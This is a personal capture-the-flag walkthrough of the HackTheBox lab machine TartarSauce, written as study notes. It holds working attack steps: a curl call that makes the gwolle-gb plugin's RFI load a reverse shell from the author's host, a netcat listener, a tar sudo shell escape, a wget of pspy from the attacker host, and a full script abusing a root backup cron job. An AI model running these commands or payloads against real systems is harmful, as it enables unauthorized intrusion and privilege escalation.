

# Tartarsauce

## Reconnaissance

### nmap 

```
nmap -sV -sC -oA tartarsauces 10.129.1.185
```


### web application

- Home page


- ```Robots.txt```


- Check the detail of the path in ```robots.txt```
--> most of the path response not found 


- Only /monstra-3.9.4 display


- Find the admin page from here 


- Admin login panel


- Try admin/admin, and it logins ....


- Search the exploit for Monstra 3.0.4
```
searchsploit monstra
```


- [CVE list](https://www.cvedetails.com/vulnerability-list/vendor_id-14947/product_id-30350/version_id-575417/Monstra-Monstra-3.0.4.html) 


- According to the searchsploit result
- Here are some thinking:
    1. Try RCE exploit code 
    2. Check file upload related

- Copy the RCE exploit code from ```/usr/share/exploitdb/exploit/php/webapps/``` 


- Try to exploit it, but still failed 

- Step: 
- Check the command usage of exploit code 


1. Execute exploit code 
```
python 49949.py -T 10.129.1.185 -P 80 -U /webservices/monstra-3.0.4 -u admin -p admin
```


- I will got cookie PHPSESSID value and the response will tell me where the shell located.
2. Copy the session cookie then paste it to the cookie value in browser 


3. Request the shell location URL, it will response 404 Not Found.


- I research the other function in CMS admin page.
- Here are something I found:
    1. The path /public/uploads exists but I don't have permission to read it.
    
    - According to the payload for CVE-2018-6383 in exploitdb, I think the goal of exploit code is upload a php shell to /public/uploads, and access the shell file to achieve RCE.
    - But seems I can't access the directory, so I think the shell can't be generated successfully.
    2. Here are many different pages in CMS manage page
    
    
    - But most of these page will response 404 NOT found 
    - I think this web site are set up to read-only now.

    
    3. In upload file function, there is a link **uploads**, and when I click it, the url will become like 
    ``` http://10.129.1.185/webservices/monstra-3.0.4/admin/index.php?id=filemanager&path=uploads/ ```
    
    - So I tried to modified the path value, but it still can't move to another directory.
    4. besides that, there are many function like create blog, create catagory and so on.
    - But, I haven't find other can achieve RCE except the file upload.
    5. According to this [payload](https://www.exploit-db.com/exploits/48479), I also tried to upload webshell and find the path to execute it, but still failed, I still can't upload file normally
    
    
    6. [This exploit step](https://www.exploit-db.com/exploits/43348) also failed, even the response is OK, but I can't find the file.

    

#### Ippsec tutorial

- Check [Ippsec video](https://www.youtube.com/watch?v=9MeBiP637ZA) from 7:17. 
- He try to edit theme first, since the theme usually going to be PHP generally, and we must have high possibility to edit php code.


- But it still failed in here.


- With above trying, he can confirm the site is read-only on web server. --> that is a good setting.
- Then he also tried to access backup to confirm the backup directory is writable or not.--> backup page is empty, no backup file created.
- Besides that, he also tried to create directory, upload file and so on. ---> all failed
- He also use searchsploit to find the cve or exploit code, but those codes don't work, because most of them needs to write permission


### Directroy bruteforce 

- So, I decide to do gobuster to bruteforce the directory under /webservices
- And I find a path name ```/wp```, it might be a wordpress page.


- Check this page in browser.


- Of course, there must have a login page.


### WP Scan

- Using WPScan to check this wordpress page.
```
wpscan -e p,t,u --plugins-detection aggressive --url 10.129.1.185/webservices/wp/
```


- The useful result 
- Plugins:
    1. akismet: search exploit for akismet, but I didn't find anythind useful
    2. gwolle-gb: here is a [RFI vulnerability](https://wpscan.com/vulnerability/65d869e8-5c50-4c82-9101-6b533da0c207)


### Research for gwolle-gb RFI 


## Exploit

- So , first download php web shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
- And modify the file to ```wp-load.php```


- Create simple http server
```
python3 -m http.server 9797
```


- Set up nc listener
```
nc -nlvp 1336
```


- curl to poke the wp vulnerable point
```
curl http://10.129.1.185/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.17.145:9797/
```


- Then Check the nc listener, it will get the shell back
- But the permission only web user (www-data)


### Privilege Escalation to normal user 

- Check the user directory in ```/home ```
- Since I only have www-data permission, so I can't access to onuma directory


- Check wp-config file 
```
cat wp-config.php
```


- Find Wordpress DB password: ```w0rdpr3$$d@t@b@$3@cc3$$```


- Chceck network status 
```
netstat -tunlp
```
- The mysql service is listening 


- Access to DB 
```
mysql -h 127.0.0.1 -P 3306 -u wpuser -p
```


- Check DB list


- Use wp and check tables


- Nothing special 
- Check sudo permission, I found the www-data user can execute ```/bin/tar``` as onuma permission without password.
``` sudo -l ```


- So, check how to use tar to escalate the permission from [GFObins](https://gtfobins.github.io/gtfobins/tar/)


- Using the payload : 
```
tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'
```


- First, I execute the payload directly, but it still only get www-data permission
```
tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'
```


- execute the command with user onuma 
```
sudo -u onuma tar xf /dev/null -I '/bin/sh' -c "sh <&2 1>&2"'
```


- Check user 


- Get user flag: 
``` 
fb1137d3ff73216317de05a17b55dbb3 
```


## Post Exploitation

- Check host information
```
uname -r 
```

- Upload pspy32s and execute it 
```
wget http://10.10.17.145/9696/pspy32s
chmod +x pspy32s
./pspy32s
```
- There is an interesting process 
```
/bin/bash /usr/sbin/backuperer
```


- Check the bacuperer location


- Review the backuperer content, it's a bash shell code 

```
#!/bin/bash

#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check

# formatting
printbdr()
{
    for n in $(seq 72);
    do /usr/bin/printf $"-";
    done
}
bdr=$(printbdr)

# Added a test file to let us see when the last backup was run
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg

# Cleanup from last time.
/bin/rm -rf $tmpdir/.* $check

# Backup onuma website dev files.
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &

# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30

# Test the backup integrity
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir
}

/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi

```

- Code Review:

1. Variable Set up 
```
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check
```

2. Record the back up time
```
# Added a test file to let us see when the last backup was run
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg
```

3. Remove check directory which created last time
```
# Cleanup from last time.
/bin/rm -rf $tmpdir/.* $check
```

4. Using user onuma to execute tar to /var/www/html content 
```
# Backup onuma website dev files.
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &
```

5. Delay 30 seconds 
```
# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30
```

6. Integrity check for file in check directory and backup in temp directory
```
# Test the backup integrity
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir
}

/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi
```


### Privilege Escalation

- Using the shell code from 

```
#!/bin/bash

# work out of shm
cd /dev/shm

# set both start and cur equal to any backup file if it's there
start=$(find /var/tmp -maxdepth 1 -type f -name ".*")
cur=$(find /var/tmp -maxdepth 1 -type f -name ".*")

# loop until there's a change in cur
echo "Waiting for archive filename to change..."
while [ "$start" == "$cur" -o "$cur" == "" ] ; do
    sleep 10;
    cur=$(find /var/tmp -maxdepth 1 -type f -name ".*");
done

# Grab a copy of the archive
echo "File changed... copying here"
cp $cur .

# get filename
fn=$(echo $cur | cut -d'/' -f4)

# extract archive
tar -zxf $fn

# remove robots.txt and replace it with link to root.txt
rm var/www/html/robots.txt
ln -s /root/root.txt var/www/html/robots.txt

# remove old archive
rm $fn

# create new archive
tar czf $fn var

# put it back, and clean up
mv $fn $cur
rm $fn
rm -rf var

# wait for results
echo "Waiting for new logs..."
tail -f /var/backups/onuma_backup_error.txt
```
- After executing, check pspy32s, the sh will be execute and the delay time also will show up.


- Check the Content, the flag will be display
- Get root flag: ``` 8a65a0ae775f5e58e9fb4a5b61015500 ```


## Reference 

### Writeup 

- [(Discussion)Hint for TartarSauce!](https://forum.hackthebox.com/t/hint-for-tartarsauce/643/273)
- [Writeup-1 Reference-1](https://0xdf.gitlab.io/2018/10/20/htb-tartarsauce.html)
- [(Video)HackTheBox - Tartarsauce](https://www.youtube.com/watch?v=9MeBiP637ZA)
- [TartarSauce — HTB Walkthrough](https://offs3cg33k.medium.com/tartarsauce-htb-walkthrough-1d90520b5608)
- [HackTheBox – TartarSauce](https://ivanitlearning.wordpress.com/2021/04/05/hackthebox-tartarsauce/)


### Tar command 

- [man tar](https://man7.org/linux/man-pages/man1/tar.1.html)
- [21 Tar Command Examples in Linux](https://www.tecmint.com/18-tar-command-examples-in-linux/)

### Privilege Escalation

- [privilege escalation: tar](https://gtfobins.github.io/gtfobins/tar/)
- [privilege escalation: diff](https://gtfobins.github.io/gtfobins/diff/)
- [Linux-Privilege-Escalation](https://github.com/frizb/Linux-Privilege-Escalation)

### WPScan / WordPress

- [(HackTrick)WordPress](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress)
- [WPScan Usage Documentation](https://blog.wpscan.com/wpscan-user-documentation/)

### GWOLLE-GB

- [(wpscan)CVE-2015-8351](https://wpscan.com/vulnerability/65d869e8-5c50-4c82-9101-6b533da0c207)
- ["WordPress Plugin Gwolle Guestbook 1.5.3 - Remote File Inclusion"](https://www.nmmapper.com/st/exploitdetails/38861/37272/wordpress-plugin-gwolle-guestbook-153-remote-file-inclusion/)
- [CVE-2015-8351](https://cve.circl.lu/cve/CVE-2015-8351)
- [Gwolle Guestbook <= 1.5.3 - Remote File Inclusion (RFI)](https://wpscan.com/vulnerability/65d869e8-5c50-4c82-9101-6b533da0c207)
- [WordPress Gwolle Guestbook 1.5.3 Remote File Inclusion](https://packetstormsecurity.com/files/134599/WordPress-Gwolle-Guestbook-1.5.3-Remote-File-Inclusion.html)


- [(ExploitDB)WordPress Plugin Gwolle Guestbook 1.5.3 - Remote File Inclusion](https://www.exploit-db.com/exploits/38861)


### Monstra 3.0.4 

- [Monstra 3.0.4 CVE list](https://www.cvedetails.com/vulnerability-list/vendor_id-14947/product_id-30350/version_id-575417/Monstra-Monstra-3.0.4.html
- [(Failed)Monstra CMS 3.0.4 - Remote Code Execution (Authenticated)](https://www.exploit-db.com/exploits/49949)
- [(Github)CVE-2018-6383-Exploit](https://github.com/Hacker5preme/Exploits#CVE-2018-6383-Exploit)
- [(Failed)Monstra CMS 3.0.4 - Authenticated Arbitrary File Upload](https://www.exploit-db.com/exploits/48479)
- [(Failed)Monstra CMS 3.0.4 - (Authenticated) Arbitrary File Upload / Remote Code Execution](https://www.exploit-db.com/exploits/43348)


### MySQL DataBase

- [What is the default database in MySQL?](https://intellipaat.com/community/51308/what-is-the-default-database-in-mysql)

###### tags: `HackTheBox` `linux` `medium` `monstra-3.0.4` `wordpress` `WordPress` `WPScan` `Gwolle-gb` `RFI` `Privilege Escalation-tar` `code review` `bash script` `shell script`